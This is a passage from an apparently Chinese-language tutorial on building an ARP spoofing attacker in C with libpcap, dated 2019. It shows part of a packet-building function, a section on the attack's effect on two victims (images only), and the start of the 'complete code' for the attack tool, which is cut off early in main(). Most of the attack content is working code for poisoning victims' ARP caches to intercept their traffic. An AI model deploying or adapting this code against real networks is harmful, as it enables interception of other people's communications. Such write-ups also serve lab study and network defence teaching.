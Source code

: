    ```c
   	packet[41] = dip[3];
   
   	/* Fill the rest of the packet with 0 */
   	for (int i = 42; i < 61; i++)
   	{
   		packet[i] = 0x0;
   	}	
   }
   ```



#### 4. 攻击效果

1. 受害者1

   ![1569924260141](1569924260141.png)

2. 受害者2

   ![1569924315454](1569924315454.png)

3. 攻击者抓包

   攻击过程：
   
   ![1569927815119](1569927815119.png)
   
   

#### 5.完整代码

```c
//2019.10.1
//by zhyjc6
#include <stdlib.h>
#include <stdio.h>
#include <pcap.h>


void pktbuild(u_char* packet, int *smac, int *sip, int *dmac, int* dip);

int main(int argc, char **argv)
{
	pcap_if_t* alldevs;			//网卡列表
	pcap_if_t* d;				//选中的网卡
	int i = 0;					//全局计数变量
	int inum;					//定位选中的网卡
	u_char* packet1[100];		//arp帧包1
	u_char* packet2[100];		//arp帧包2

	pcap_t *fp;					//启用网卡后的句柄
	char errbuf[PCAP_ERRBUF_SIZE];		//错误缓冲区
	int flood;							//发送包的数量

	int self_mac[6];		//攻击者自己的mac地址
	int victim1_ip[4];		//受害者1的ip
	int victim1_mac[6];		//受害者1的mac地址
	int victim2_ip[4];		//受害者2的ip
	int victim2_mac[6];		//受害者2的mac地址

	printf("the arp-attacker starts...\n");

	/* 检索设备列表 */
	if (pcap_findalldevs(&alldevs, errbuf) == -1)
	{
		fprintf(stderr, "Error in pcap_findalldevs: %s\n", errbuf);
```